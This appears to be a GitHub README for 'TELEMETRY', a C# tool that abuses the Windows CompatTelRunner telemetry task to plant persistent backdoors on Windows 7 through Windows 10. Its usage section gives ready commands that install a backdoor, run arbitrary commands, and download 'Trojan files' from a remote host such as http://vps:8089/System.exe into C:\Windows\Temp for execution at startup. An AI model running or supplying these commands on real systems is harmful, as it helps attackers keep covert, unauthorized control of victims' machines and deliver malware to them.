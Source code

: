 # TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. The process outlined here affects Windows machines from 2008R2/Windows 7 through 2019/Windows 10.

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
        Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command:
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  ![1](PIC/2.png)

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  ![2](PIC/1.png)

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/
